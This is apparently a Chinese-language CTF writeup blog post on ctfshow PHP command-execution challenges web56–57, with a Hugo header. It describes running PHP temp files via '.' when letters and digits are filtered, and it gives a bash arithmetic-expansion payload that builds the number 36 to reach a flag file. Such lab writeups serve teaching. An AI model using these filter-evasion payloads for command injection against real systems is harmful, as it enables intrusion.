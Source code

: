 ```yaml
---
title: "ctfshow Web入门[命令执行] web56-77 Writeup"
date: 2022-08-09T17:56:28+08:00
draft: false
author: "X1r0z"

tags: ['linux','php','ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


剩下来的命令执行

有一些 open_basedir 和 disable_functions 的绕过



## web56

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091054225.png)

过滤了字母和数字

根据上一题, 只能使用 `.` 执行 PHP 的缓存文件

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091057063.png)

## web57

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091101848.png)

提示 flag 在 36.php 中

发现 `$` 没被过滤, 当时想的是类似 `$$` `$@` `$!` 的指令, 然后 `++` `--` 这样子, 本地测试发现都不好构造36

hint 如下

```bash
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
${_} ="" //返回上一次命令
$((${_}))=0
$((~$((${_}))))=-1
```
